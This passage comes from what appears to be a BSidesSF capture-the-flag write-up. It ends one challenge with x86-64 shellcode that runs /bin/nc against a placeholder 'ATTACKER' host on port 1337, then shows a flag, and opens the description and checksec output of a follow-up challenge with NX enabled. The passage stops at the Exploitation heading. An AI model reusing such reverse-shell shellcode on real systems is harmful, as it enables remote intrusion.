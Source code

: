 ```asm6502
    push	r10  ;push address of '1337'
    push	r9   ;push address of 'ip'
    push 	rdi  ;push address of '/bin/nc'

    mov    	rsi,rsp
    mov    	al,59
    syscall

ip:
	call  continue
	db "ATTACKER"
```
{% endcode %}

{% hint style="success" %}
Flag: _CTF{certified-genuine-instructions}_
{% endhint %}

## Can't Give In (secure)

### Description

> Can you get a shell?
>
> _Note: this is similar to cant-give-in, but the stack is no longer executable_
>
> Flag is located in: `/home/ctf/flag.txt`
>
> Author: ron
>
> [http://cant-give-in-secure-05060d6d.challenges.bsidessf.net:8080](http://cant-give-in-secure-05060d6d.challenges.bsidessf.net:8080/)

### Binary Analysis

the binary and overall environment is the same as the previous challenge, however one thing different is that this time the binary has NX enabled

```bash
└──╼ [★]$ file auth.cgi 
auth.cgi: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=0519198742c4cfaf17998361e320132e208492c0, for GNU/Linux 3.2.0, with debug_info, not stripped

└──╼ [★]$ pwn checksec auth.cgi 
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### Exploitation
